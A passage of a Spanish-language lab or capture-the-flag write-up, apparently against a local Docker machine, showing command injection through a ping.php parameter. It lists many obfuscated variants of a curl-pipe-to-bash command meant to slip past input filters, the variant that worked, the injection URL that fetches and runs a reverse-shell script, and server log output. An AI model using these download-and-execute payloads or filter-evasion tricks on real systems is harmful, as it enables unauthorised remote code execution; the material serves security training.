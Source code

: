 ```bash
chmod +x cmd.sh
```

Una ves creado nos montamos un servidor con python3 para que este accesible este script:
```bash
python3 -m http.server 80
```

Ahora para cargar la **revershell** en la maquina victima tendremos que usar nuestra herramienta para **bypassear** nuesto comando y probaremos hasta que logremos ejecutarlo:
```bash
curl -s http://172.17.0.1/cmd.sh | bash
```

**Bypasseamos** el comando y lo almacenamos en un diccionario:
```bash
commandByPass.py 'curl -s http://172.17.0.1/cmd.sh | bash' > reverShell.txt
```

Probamos estos:
```bash
c`u`u`u`r`u`l -s http://172.17.0.1/cmd.sh | bash
cu$(echo rl) -s http://172.17.0.1/cmd.sh | bash
X=$curl\x20-s\x20http://172.17.0.1/cmd.sh\x20|\x20bash'&&$X
echo${IFS}curl -s http://172.17.0.1/cmd.sh | bash
c?u*rl -s http://172.17.0.1/cmd.sh | bash
`echo curl -s http://172.17.0.1/cmd.sh | bash`
IFS=];b=curl]-s]http://172.17.0.1/cmd.sh]|]bash;$b
$'\u0063\u0075\u0072\u006c\u0020\u002d\u0073\u0020\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0037\u0032\u002e\u0031\u0
{curl,-s,http://172.17.0.1/cmd.sh,|,bash}
!-1\-a
x=curl;$x -s http://172.17.0.1/cmd.sh | bash
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
```

Con este tuvimos exito:
```bash
c\u\r\l -\s h\t\t\p\:\/\/\1\7\2\.\1\7\.\0\.\1\/\c\m\d\.\s\h | b\a\s\h
```

Ahora lo ejecutamos para ganar acceso al **target**
```bash
# Reverse shell o acceso inicial
http://172.17.0.2/ping.php?ip=172.17.0.2;c\u\r\l%20-\s%20h\t\t\p\:\/\/\1\7\2\.\1\7\.\0\.\1\/\c\m\d\.\s\h%20|%20b\a\s\h
```

Ya tenemos acceso y desde nuestro servidor python3 se cargo la peticion:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [21/Jun/2025 23:59:08] "GET /cmd.sh HTTP/1.1" 200 -
```

---
## Escalada de Privilegios
